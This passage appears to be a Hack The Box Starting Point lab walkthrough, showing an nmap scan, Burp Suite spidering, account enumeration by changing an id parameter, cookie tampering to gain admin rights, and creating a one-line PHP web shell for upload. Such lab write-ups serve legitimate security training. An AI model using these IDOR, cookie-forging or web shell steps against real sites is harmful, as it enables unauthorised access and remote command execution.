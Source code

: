    ```bash
   nmap -sCV TARGET_IP
   ```

   ![](../assets/img/htb-starting-point/24.png)

2. We use **Burp Suite** (Proxy tool, which can be used to *intercept the web traffic*) to passively spider the website. We turn the **intercept mode off** first, to spider the site into a sitemap that weren't visible while browsing (go to **Burp, Target->Site map**)

   ![](../assets/img/htb-starting-point/25.png)

4. We particularly interested on the login script js file. Let's dive into the login page and **Login as Guest**

5. Go to the http://10.129.61.3/cdn-cgi/login/admin.php?content=accounts&id=1, we can enum the account infomation by changing the **id** paramemeter, we can get the Admin Access ID which is **34322**

6. Then go to the cookies, we can manipulate it to escalate ourselves into an **Admin**, just change the cookies as below, then refresh the page

   ![](../assets/img/htb-starting-point/26.png)

7. Now we have got the privilege to upload any file into the web, we would like to upload a **one-liner php**. We quickly make one by the command below

   ```bash
   echo "<?php system(\$_GET['cmd']);?>" > shell.php
   ```

   Then upload it (Remember to upload with the ***Brand Name***!)

   ![](../assets/img/htb-starting-point/27.png)
